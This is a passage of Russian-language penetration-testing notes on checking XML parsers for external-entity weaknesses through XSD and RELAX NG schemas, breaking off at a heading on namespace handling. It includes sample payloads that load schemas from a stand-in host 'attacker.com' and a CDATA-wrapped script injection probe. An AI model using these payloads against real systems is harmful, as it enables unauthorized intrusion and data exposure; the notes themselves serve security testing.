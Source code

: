 
----
# 3. Виды атак

## 3.1. При видимой xxe

#### [[Работа с XXE использующая DTD формат#3.1.1. Проверка реакции на DTD-инъекции|3.1.1. Проверка реакции на DTD-инъекции]]

#### 3.1.2. Проверка реакции на XSD-инъекции
XSD не поддерживает DTD напрямую, некоторые реализации XML-парсеров могут обрабатывать внешние сущности, если они включены. Это может привести к уязвимостям, аналогичным XXE.

Использование `xs:include` или `xs:import`
```
<xs:include schemaLocation="http://attacker.com/malicious.xsd"/>
```
- Если сервер загружает внешний XSD, это может быть уязвимостью.

Использование `xs:any`
```
<xs:any processContents="lax"/>
```
- Если сервер принимает произвольные элементы, это может быть уязвимостью.

#### 3.1.3. Проверка реакции на RELAX NG-инъекции
некоторые реализации могут обрабатывать внешние сущности, если они включены.

Использование внешних ссылок
RELAX NG поддерживает включение внешних ресурсов с помощью элементов `<externalRef>`.
```
<externalRef href="http://attacker.com/malicious.rng"/>
```
- Если сервер загружает внешний RELAX NG-файл, это может быть уязвимостью.

#### 3.1.4. Общие уязвимости для XSD и RELAX NG

**Инъекции в значения атрибутов**
Если значения атрибутов не проверяются должным образом, злоумышленник может внедрить вредоносный код.

Внедрить специальные символы или скрипты
```
<element attribute="value"><![CDATA[<script>alert(1)</script>]]></element>
```
- Если сервер интерпретирует внедренный код, это указывает на уязвимость.

**Обработка больших файлов**
Неправильная обработка больших XML-файлов может привести к атакам типа "отказ в обслуживании" (DoS).

**Неправильная обработка пространств имен**
